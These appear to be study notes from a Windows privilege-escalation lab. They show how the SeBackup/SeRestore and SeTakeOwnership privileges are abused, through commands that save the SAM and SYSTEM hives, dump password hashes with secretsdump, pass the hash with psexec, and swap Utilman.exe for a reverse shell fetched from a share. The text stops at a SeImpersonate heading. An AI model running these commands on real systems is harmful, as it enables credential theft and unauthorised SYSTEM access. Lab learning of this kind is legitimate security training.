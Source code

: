 - Rights of an account to perform specific tasks
- Can be checked with:
```powershell
whoami /priv 
```
- List of all permission can be found [here](https://learn.microsoft.com/en-us/windows/win32/secauthz/privilege-constants)

### SeBackup/SeRestore
- Allows users to read and write to any file or directory on the system, ignoring any permission of ACLs in place.
- Purpose of this privilege is to allow user to create a backup of the system without Admin of SYSTEM privs.
- Can be abused by creating a backup of the SYSTEM and SAM registry hive.
- SYSTEM and SAM hives can be backed up using : 
```powershell
# backup SYSTEM
reg save HKLM\SYSTEM C:\User\THMBackup\system.hive

# backup SAM
reg save HKLM\SAM C:\User\THMBackup\sam.hive
```
- These files can be used to extract hashes of users password using impacket's secretsdump [[Impacket#secretsdump.py]]
```bash
# Dump the local account hashes using system.hive and sam.hive
secretsdump.py -system system.hive -sam sam.hive LOCAL
```
- Administrator hashes can be used to perform pass the hash attack to gain system shell.
```bash
psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:8f81ee5558e2d1205a84d07b0e3b34f5 administrator@10.10.112.124

# We get shell as system.
C:\Windows\System32>
```

### SeTakeOwnership
- This privilege can be use to take ownership of any object(files, registry keys) in the system.
- Can take ownership of an executables that runs with SYSTEM privs and get a system shell.
- `utilman.exe` is a service tha provides ease of access setting at windows login and runs with SYSTEM privileges.
- With `SeTakeOwnership` , we can take ownership of the `utilman.exe` executable and replace it with cmd or a reverse shell.
```powershell
# Take ownership of the utilman executable
takeown /f C:\Windows\System32\Utilman.exe

# Give yourself full permission to the executable
icacls C:\Windows\System32\Utilman.exe /grant THMTakeOwnership:F

# Overwrite the executable with reverse shell
copy \\<ip>\public\reverse Utilman.exe

# running a listener
nv -nvlp 9999
# After locking the computer and clicking on ease of access button, we get a reverse shell.
```

### SeImpersonate
